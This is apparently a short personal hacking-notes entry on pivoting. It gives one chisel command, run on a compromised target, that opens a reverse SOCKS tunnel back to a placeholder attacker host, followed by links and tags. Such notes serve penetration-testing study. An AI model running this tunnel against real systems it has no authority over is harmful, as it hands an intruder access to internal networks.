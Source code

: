 # tunneling through chisel - socks Target
```
./chisel client $ATTACKER_IP:443 R:socks
```

# Related

- [20221003150604](/zet/20221003150604/README.md) tunneling through chisel - socks
- ~/kb/hacking/commands/pivot-tunnel-through-chisel.md

Tags:

    #assorted #command #hacking #pivot
